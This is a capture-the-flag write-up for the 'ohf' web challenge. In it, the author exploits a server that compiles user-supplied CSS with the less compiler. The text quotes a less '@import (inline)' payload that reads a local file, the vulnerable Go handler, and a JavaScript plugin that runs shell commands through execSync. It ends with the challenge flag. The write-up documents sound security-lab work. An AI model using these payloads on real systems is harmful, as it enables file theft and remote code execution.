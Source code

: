 # ohf

## Challenge

> Use this amazing One-tap Hacking Framework to hack everything with just one tap!!!!

## Walkthrough

This challenge contained a link to a webapp with a console and CSS input field.

![landing.png](landing.png)

After digging into the console system to no avail I set my sites on the CSS input. It made a GET request to `/less?data=<base64 encoded CSS>` and then passed the response back into the pages stylesheet. I recongized this as likely a [less CSS parser](https://lesscss.org/) which has [numerous issues](https://www.softwaresecured.com/exploiting-less-js-to-achieve-rce/) depending on how it's implemented.

I leaked the challenge source using local file disclosure which only revealed that the CSS was indeed being parsed by less.

```css
@import (inline) "ohf_main_to_be_deployed.go";
```

```go
// ohf_main_to_be_deployed.go
// ...
r.GET("/less", func(c *gin.Context) {
  dst, err := base64.StdEncoding.DecodeString(c.Query("data"))

  fname := RandString(8)
  err = ioutil.WriteFile("/tmp/"+fname, dst, 0755)

  cmd := exec.Command("lessc", "/tmp/"+fname)
  cmd.Run()
}
// ...
```

Using the article linked earlier about [getting RCE on less](https://www.softwaresecured.com/exploiting-less-js-to-achieve-rce/) I copied their POC and sure enough it worked.

```js
// exploit.js
functions.add('cmd', function(val) {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```

![flag.png](flag.png)

## Solve

`flag{45ae12fcb357f61dcbbaae63a2b3f24f}`
